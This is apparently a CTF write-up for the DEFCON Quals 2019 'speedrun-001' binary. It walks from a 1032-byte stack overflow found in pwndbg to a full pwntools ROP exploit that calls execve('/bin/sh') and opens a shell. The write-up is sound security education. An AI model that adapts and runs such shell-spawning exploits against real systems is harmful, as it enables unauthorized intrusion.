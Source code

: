 
# DEFCON Quals 2019 - Speedrun1 Writeup

## Challenge Overview
We are given a binary called `speedrun-001`. Let's start with some initial checks:

```bash
$ file speedrun-001
speedrun-001: ELF 64-bit LSB executable, x86-64, statically linked, for GNU/Linux 3.2.0, stripped
```

Next, we check for protections:
```bash
$ pwn checksec speedrun-001
[*] '/home/user/speedrun-001'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```


### Key Takeaways
- **NX Enabled**: We cannot execute shellcode directly on the stack.
- **No Canary**: Stack smashing is possible without detection.
- **No PIE**: Binary addresses are fixed, which simplifies ROP.

---

## Step 1: Finding the Vulnerability
We run the binary:
```bash
$ ./speedrun-001
Hello brave new challenger
Any last words?
AAAAAAAAAAA
This will be the last thing that you say: AAAAAAAAAAA

Alas, you had no luck today.
```

This hints that our input is being printed back using `printf`.

We run the binary inside GDB and interrupt execution to inspect it:
```bash
$ gdb ./speedrun-001
pwndbg> r
Hello brave new challenger
Any last words?
^C
```

Using `bt` (backtrace), we discover the main logic and its frame addresses:
```bash
pwndbg> bt
#0  0x00000000004498ae in ?? ()
#1  0x0000000000400b90 in ?? ()
#2  0x0000000000400c1d in ?? ()
#3  0x00000000004011a9 in ?? ()
#4  0x0000000000400a5a in ?? ()
```

We set a breakpoint at `0x400b90`:
```bash
pwndbg> b *0x400b90
pwndbg> r
Starting program: ./speedrun-001 
Hello brave new challenger
Any last words?
AAAAAAAAAAA
```

At this point, our input `"AAAAAAAAAAA"` is stored on the stack:
```bash
pwndbg> search AAAAAAAAAAA
[stack] 0x7fffffffd710 'AAAAAAAAAAA\n'
```

To calculate the overflow offset:
```bash
pwndbg> i f
Stack level 0, frame at 0x7fffffffdb20:
 rip = 0x400b90; saved rip = 0x400c1d
pwndbg> p 0x7fffffffdb18 - 0x7fffffffd710
$1 = 1032
```
So, the buffer size to overflow and reach the return address is **1032 bytes**.

---

## Step 2: ROP Chain Construction
The goal is to **spawn a shell**. Since NX is enabled, we must use ROP gadgets.

we can write /bin/sh at 0x6b6000 because it is a best place (rw- permission):
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x400000           0x4b6000 r-xp    b6000       0 speedrun-001
          0x6b6000           0x6bc000 rw-p     6000   b6000 speedrun-001
          0x6bc000           0x6bd000 rw-p     1000       0 [anon_006bc]
          0x6bd000           0x6e0000 rw-p    23000       0 [heap]
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000       0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000       0 [vdso]
    0x7ffffffdd000     0x7ffffffff000 rw-p    22000       0 [stack]
```

The syscalls for `execve("/bin/sh", 0, 0)` require:
```
RAX = 59 (syscall number for execve)
RDI = address of "/bin/sh"
RSI = 0
RDX = 0
syscall
```

We identify useful gadgets using ROPGadget or similar:
```
0x000000000048d251 : mov qword ptr [rax], rdx ; ret
0x000000000040129c : syscall
0x00000000004101f3 : pop rsi ; ret
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x000000000044be16 : pop rdx ; ret
0x0000000000400416 : ret
```

We will:
1. **Write "/bin/sh"** to a writable memory section (`0x6b6000`).
2. **Setup registers** for the `execve` syscall.
3. **Trigger syscall**.

---

## Step 3: Exploit Code
Here’s the final exploit:

```python
from pwn import *

# Gadgets
popRax = p64(0x0415664)
popRdi = p64(0x0400686)
popRsi = p64(0x04101f3)
popRdx = p64(0x044be16)
syscall = p64(0x040129c)
writegdt = p64(0x048d251)

p = process("./speedrun-001")
p.recvuntil(b"Any last words?")

# "/bin/sh" will be written to 0x6b6000
binsh_addr = p64(0x6b6000)

rop = b""
# Step 1: Write "/bin/sh" to memory
rop += popRdx
rop += b"/bin/sh\x00"
rop += popRax
rop += binsh_addr
rop += writegdt

# Step 2: Setup registers for execve
rop += popRax
rop += p64(0x3b)       # execve syscall number
rop += popRdi
rop += binsh_addr
rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)
rop += syscall

# Final payload
payload = b"A" * 1032 + rop
p.sendline(payload)
p.interactive()
```

---

## Step 4: Exploit Execution
Running the exploit:
```bash
$ python3 exp.py
[+] Starting local process './speedrun-001': pid 21224
[*] Switching to interactive mode
$ cat flag.txt
ctf{idk_what_happened}
```

---

## Explanation of ROP Flow

| Step | Gadget | Action |
|------|--------|--------|
| 1 | `pop rdx` | Load `"/bin/sh"` string into RDX |
| 2 | `pop rax` | Load writable memory address into RAX |
| 3 | `mov [rax], rdx` | Write string to memory |
| 4 | `pop rax` | Syscall number 59 (execve) |
| 5 | `pop rdi` | Pointer to `"/bin/sh"` |
| 6 | `pop rsi` | NULL |
| 7 | `pop rdx` | NULL |
| 8 | `syscall` | Execute syscall → Spawns shell |

---

## Notes
- The binary has a timer which kills the process if execution takes too long, so the exploit must be sent quickly.
- The `.cast` file `speed.cast` contains a full demo recording of the steps above.

---

## Final Flag
```
ctf{idk_what_happened}
```
--

